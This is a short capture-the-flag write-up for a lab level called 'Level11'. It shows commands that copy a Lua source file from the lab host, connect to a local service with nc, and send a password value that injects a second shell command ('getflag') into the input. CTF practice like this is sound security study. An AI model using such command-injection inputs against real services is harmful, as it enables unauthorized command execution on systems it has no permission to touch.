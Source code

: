 
# Level11

```bash
scp -P 4242 level11@192.168.1.144:/home/user/level11/level11.lua .
```

```bash
nc 127.0.0.1 5151
```

```bash
Password: hello;getflag > /tmp/bbb
```
